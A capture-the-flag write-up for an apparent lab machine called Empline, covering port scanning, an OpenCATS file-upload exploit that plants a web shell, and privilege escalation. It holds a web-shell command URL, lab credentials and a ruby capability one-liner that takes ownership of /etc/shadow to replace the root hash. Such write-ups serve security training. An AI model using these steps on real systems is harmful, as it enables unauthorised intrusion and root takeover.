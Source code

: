 
## Enemuration

```
 rustscan -a 10.10.36.254
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Where '404 Not Found' meets '200 OK'.

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.36.254:80
Open 10.10.36.254:22
Open 10.10.36.254:3306
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-28 21:01 +0545
Initiating Ping Scan at 21:01
Scanning 10.10.36.254 [4 ports]
Completed Ping Scan at 21:01, 0.23s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:01
Completed Parallel DNS resolution of 1 host. at 21:01, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 21:01
Scanning 10.10.36.254 (10.10.36.254) [3 ports]
Discovered open port 80/tcp on 10.10.36.254
Discovered open port 3306/tcp on 10.10.36.254
Discovered open port 22/tcp on 10.10.36.254
Completed SYN Stealth Scan at 21:01, 0.21s elapsed (3 total ports)
Nmap scan report for 10.10.36.254 (10.10.36.254)
Host is up, received reset ttl 60 (0.20s latency).
Scanned at 2025-01-28 21:01:36 +0545 for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 60
80/tcp   open  http    syn-ack ttl 60
3306/tcp open  mysql   syn-ack ttl 60

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.64 seconds
           Raw packets sent: 7 (284B) | Rcvd: 4 (172B)


```

```
 nmap -sVC 10.10.36.254 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-28 21:00 +0545
Nmap scan report for 10.10.36.254 (10.10.36.254)
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Empline
|_http-server-header: Apache/2.4.29 (Ubuntu)
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 86
|   Capabilities flags: 63487
|   Some Capabilities: LongColumnFlag, InteractiveClient, Support41Auth, Speaks41ProtocolOld, LongPassword, DontAllowDatabaseTableColumn, SupportsTransactions, IgnoreSigpipes, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, ODBCClient, SupportsCompression, FoundRows, ConnectWithDatabase, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: 3C4{0z9JGhTNiFa6*mf<
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.26 seconds

```


After that lets go to web page.
![](Pasted%20image%2020250128214705.png)
We can see there is `job` sub domain.
Lets manage it and go to that subdomain.
![](Pasted%20image%2020250128214802.png)

Hmm but before we have saw `/careers`.
Lets go there and see.
![](Pasted%20image%2020250128214854.png)

## Exploit

Hmm what is that `opencats`.
Lets search for it and its exploit.
And we can see this.
![](Pasted%20image%2020250128214946.png)

Lets go to exploit-db and try to exploit it.
I ran the exploit on `job.empline.thm` and it worked.
![](Pasted%20image%2020250128215111.png)

I also spend some time understanding the code and exploit.
So when we came here.
`http://job.empline.thm/careers/index.php?m=careers&p=applyToJob&ID=1`
there will be.
![](Pasted%20image%2020250128215239.png)

We can upload a file in that.
In my case, I uploaded a web shell and according to exploit and opencats, the file uploaded there will be saved in `http://job.empline.thm/upload/careerportaladd/` or `/upload/careerportaladd/` 

And we can put the files name and execute command like this.
`http://job.empline.thm/upload/careerportaladd/web.php?cmd=id`
![](Pasted%20image%2020250128215537.png)

Now we can easily get a rev shell by python3 rev shell.
![](Pasted%20image%2020250128215652.png)

## Privelege Escalation

Lets do further enemuration.
We can find `config.php` in `/var/www/opencats` directory.
And there is a password for DB of user james.
![](Pasted%20image%2020250128215902.png)
`ng6pUFvsGNtw`

Lets login and enemurate.
![](Pasted%20image%2020250128220206.png)
We got two password and one cracked so fast.
![](Pasted%20image%2020250128220234.png)
`pretonnevippasempre`

For now lets enemurate on cracked password and try to login with user `george`.
And we were successful.
![](Pasted%20image%2020250128220432.png)

Now lets try to escalate our privelege to the root.

After trying to find setuid and leaked password, I came to capabilities and got this.
![](Pasted%20image%2020250128221136.png)

Lets try to exploit it.

After doing some research and talking with chatGPT, I came up with this.
`/usr/local/bin/ruby -e 'File.chown(1002, 1002, "/etc/shadow")'`

It will change the owner of `/etc/shadow` file to our current user.
![](Pasted%20image%2020250128224536.png)

As our uid and gid is 1002, when we change the ownership of `/etc/shadow`  to 1002, It will make us the owner of `/etc/shadow` file.

After that we can just make its permission writable and change the root hash to george's hash as it will be easy as we also have a password for user george.
![](Pasted%20image%2020250128225009.png)

And we got the root.

